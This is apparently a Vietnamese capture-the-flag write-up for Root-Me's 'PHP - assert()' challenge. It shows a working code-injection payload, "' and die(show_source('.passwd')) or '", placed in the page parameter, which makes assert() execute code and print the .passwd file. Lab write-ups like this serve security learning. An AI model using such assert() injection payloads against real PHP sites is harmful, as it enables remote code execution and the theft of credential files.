


# WRITE UP

**Challenge:** [PHP - assert()](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)

Thử fuzz với payload: <http://challenge01.root-me.org/web-serveur/ch47/?page=../>

Website sử dụng **assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");** để check xem yêu cầu tìm xem có file hay không, nếu lỗi thì hiện message. Như vậy, ta cần injecton hàm assert này. Tra cheat sheet ta có thể nhét BOOLEAN kèm theo để buộc thực thi với **die()** và để hiển thị source bằng hàm **show\_source()**:

**and die(show\_source('.passwd')) or '**

Lúc này payload có dạng:

assert("strpos(' ' **and die(show\_source('.passwd')) or** ' ', '..') === false") **or die("Detected hacking attempt!");**

**Payload:** <http://challenge01.root-me.org/web-serveur/ch47/?page=%27%20and%20die(show_source(%27.passwd%27))%20or%20%27>

\- Flag: \*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*
